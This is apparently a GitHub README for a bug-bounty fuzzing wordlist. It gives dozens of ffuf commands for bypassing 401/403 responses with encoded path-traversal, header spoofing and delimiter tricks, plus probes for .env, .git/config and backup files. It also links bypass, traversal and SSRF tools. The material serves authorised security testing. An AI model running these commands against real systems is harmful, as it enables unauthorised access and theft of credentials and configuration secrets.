 # bbFuzzing.txt

**bbFuzzing.txt** is a unique vocabulary that is 90% generated with OpenAI ChatGPT. 

Below are links to tools that allow you to bypass 401/403 status code. 

Tools for 403/401 bypass
1. [bypassfuzzer](https://github.com/intrudir/BypassFuzzer) by @intrudir
2. [bypass-url-parser](https://github.com/laluka/bypass-url-parser) by @TheLaluka
3. [dontgo403](https://github.com/devploit/dontgo403) by @devploit
4. [nomore403](https://github.com/devploit/nomore403) by @devploit

There are also examples of how you can extend the fuzzing process to get more interesting results (proxy level misconfigurations, temporary files, etc.).

```
> ffuf -u target.com/FUZZ -w bbFuzzing.txt
> ffuf -u target.com/FUZZ -H "Host: 127.0.0.1" -w bbFuzzing.txt
> ffuf -u target.com/FUZZ -H "Host: localhost" -w bbFuzzing.txt

> ffuf -u target.com/FUZZ.example -w bbFuzzing.txt
> ffuf -u target.com/FUZZ.sample -w bbFuzzing.txt
> ffuf -u target.com/FUZZ.template -w bbFuzzing.txt

> ffuf -u target.com/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/%3B/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/..%3B/FUZZ/ -w bbFuzzing.txt

> ffuf -u target.com/FUZZ..%2f -w bbFuzzing.txt
> ffuf -u target.com/FUZZ%09 -w bbFuzzing.txt
> ffuf -u target.com/FUZZ%23 -w bbFuzzing.txt

> ffuf -u target.com/FUZZ..%00 -w bbFuzzing.txt
> ffuf -u target.com/FUZZ;%09 -w bbFuzzing.txt
> ffuf -u target.com/FUZZ;%09.. -w bbFuzzing.txt

> ffuf -u target.com/FUZZ;%09..; -w bbFuzzing.txt
> ffuf -u target.com/FUZZ;%2f.. -w bbFuzzing.txt
> ffuf -u target.com/.FUZZ -w bbFuzzing.txt

> ffuf -u target.com/%0AFUZZ -w bbFuzzing.txt
> ffuf -u target.com/%0D%0AFUZZ -w bbFuzzing.txt
> ffuf -u target.com/%0DFUZZ -w bbFuzzing.txt

> ffuf -u target.com/%2e/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/FUZZ%20 -w bbFuzzing.txt
> ffuf -u target.com/FUZZ%2520 -w bbFuzzing.txt

> ffuf -u target.com/%u002e%u002e/%u002e%u002e/FUZZ -w bbFuzzing.txt
> ffuf -u target.com/%2e%2e%2f/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/%2EFUZZ -w bbFuzzing.txt

> ffuf -u target.com/FUZZ.old -w bbFuzzing.txt
> ffuf -u target.com/FUZZ?.css -w fuzzing.txt
> ffuf -u target.com/FUZZ?.js -w fuzzing.txt

> ffuf -u target.com/_FUZZ -w bbFuzzing.tx
> ffuf -u target.com/FUZZ_ -w bbFuzzing.txt
> ffuf -u target.com/_FUZZ_ -w bbFuzzing.txt

> ffuf -u target.com/..;/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/..;/..;/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/../FUZZ -w bbFuzzing.txt
> ffuf -u target.com/FUZZ..;/ -w bbFuzzing.txt

> ffuf -u target.com/FUZZ;/ -w bbFuzzing.txt
> ffuf -u target.com/FUZZ# -w bbFuzzing.txt
> ffuf -u target.com/FUZZ/~ -w bbFuzzing.txt

> ffuf -u target.com/!FUZZ -w bbFuzzing.txt
> ffuf -u target.com/#/FUZZ/ -w bbFuzzing.txt
> ffuf -u target.com/-/FUZZ/ -w bbFuzzing.txt

> ffuf -u target.com/FUZZ~ -w bbFuzzing.txt
> ffuf -u target.com/FUZZ/.git/config -w bbFuzzing.txt
> ffuf -u target.com/FUZZ/.env -w bbFuzzing.txt

> ffuf -u target.com/FUZZ. -w bbFuzzing.txt
> ffuf -u target.com/FUZZ/* -w bbFuzzing.txt
> ffuf -u target.com/FUZZ/? -w bbFuzzing.txt

> ffuf -u target.com/FUZZ -recursive -w fuzzing.txt
> ffuf -u target.com/FUZZ -recursive -w fuzzing.txt -e .asp,.aspx,.ashx,.ash,.jsp,.jspx,.php,.js,.dll,.json,.bak,.bkp,.conf,.txt,.py,.zip,.tar.gz,.tar,.7z,.old
```
5. [pathbuster](https://github.com/ethicalhackingplayground/pathbuster) by @ethicalhackingplayground
```
> pathbuster --urls crawls.txt --payloads traversals.txt --wordlist wordlist.txt -o output.txt
```
![image](https://github.com/reewardius/bbFuzzing.txt/assets/68978608/538999ff-3bac-4291-a347-e701cc1f21d5)
![image](https://github.com/reewardius/bbFuzzing.txt/assets/68978608/88c5c7d7-93e5-471e-8806-9c565207d3fa)

6. [TProxer](https://github.com/ethicalhackingplayground/TProxer) - Burp Suite extension made to automate the process of finding reverse proxy path based SSRF by @ethicalhackingplayground

![image](https://github.com/reewardius/bbFuzzing.txt/assets/68978608/be1496fe-8cc2-4494-867d-dcb46a13b113)
![image](https://github.com/reewardius/bbFuzzing.txt/assets/68978608/5df4ce2b-644b-4ed2-a9d9-1c4112f59a91)
